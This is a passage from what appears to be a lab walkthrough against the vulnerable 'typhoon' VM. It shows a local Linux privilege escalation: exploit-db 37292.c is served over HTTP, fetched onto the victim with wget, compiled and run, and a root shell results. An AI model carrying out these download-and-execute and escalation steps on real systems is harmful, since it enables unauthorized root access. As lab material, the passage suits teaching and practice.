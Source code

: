 ```
----------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

The first is a C program we'll have to compile and run in the victim machine, and
the second one is a human-readable description of the exploit.

```
$ cat /usr/share/exploitdb/exploits/linux/local/37292.c > exploit.c
$ python2 -m SimpleHTTPServer 8080
```

We're now serving the directory we're in. We want to download the `exploit.c` file
onto the victim machine. For this, we go back to our Bash session, but first we
need to cd into a directory we can write to:

```
www-data@typhoon:/usr/lib$ touch test
touch test
touch: cannot touch 'test': Permission denied
www-data@typhoon:/var/www/html$ cd /var/www/html
cd /var/www/html
www-data@typhoon:/var/www/html$ touch test
touch test
www-data@typhoon:/var/www/html$ ls
ls
assets
calendar
cms
drupal
dvwa
index.html
mongoadmin
robots.txt
test
xvwa
www-data@typhoon:/var/www/html$ wget http://10.99.78.205/exploit.c
[...]
2019-02-13 20:56:55 (537 MB/s) - 'exploit.c' saved [5119/5119]
www-data@typhoon:/var/www/html$ gcc exploit.c -o exploit
gcc exploit.c -o exploit
www-data@typhoon:/var/www/html$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
#
```
